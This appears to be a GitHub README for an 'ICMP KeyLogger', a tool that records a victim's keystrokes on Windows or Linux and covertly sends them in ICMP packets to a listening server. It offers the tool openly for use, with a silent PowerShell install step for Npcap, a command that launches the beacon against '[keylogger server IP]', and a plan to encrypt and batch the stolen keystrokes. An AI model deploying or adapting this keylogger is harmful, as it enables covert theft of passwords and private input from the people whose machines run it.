 # ICMP KeyLogger

## Introduction
ICMP KeyLogger is a tool designed to capture and transmit keystrokes over the network using ICMP packets. It is divided into two main components: the Beacon, which captures keystrokes and sends them, and the Server, which receives and logs these keystrokes.

### TODO
- Implement encryption for keystroke data.
- Group packets to optimize network traffic instead of sending keystrokes instantly.

## Requirements
### Windows
- [npcap](https://nmap.org/npcap/)
- pynput
- scapy

### Linux
- pynput
- scapy

## Installation

### Windows
- **Npcap Installation** (Silent Install):
  ```powershell
  # Set download URL and installer name
  $downloadUrl = "https://nmap.org/npcap/dist/npcap-<version>.exe"
  $installerName = "npcap-<version>.exe"

  # Download the installer
  Invoke-WebRequest -Uri $downloadUrl -OutFile $installerName

  # Install Npcap silently
  Start-Process -FilePath .\$installerName -ArgumentList "/S" -Wait -NoNewWindow
Replace <version> with the desired version of Npcap.

Usage
Identifying Network Interface on Windows

To find the full name of the network interface:

cmd

ipconfig /all

Use the Description field of the relevant interface.
Running the Beacon

cmd

py ICMPbeacon.py -i "[Description from ipconfig /all]" -d [keylogger server IP]

Running the Server

bash

sudo python3 ICMPlogServ.py -i [listening interface] -d [beacon IP]
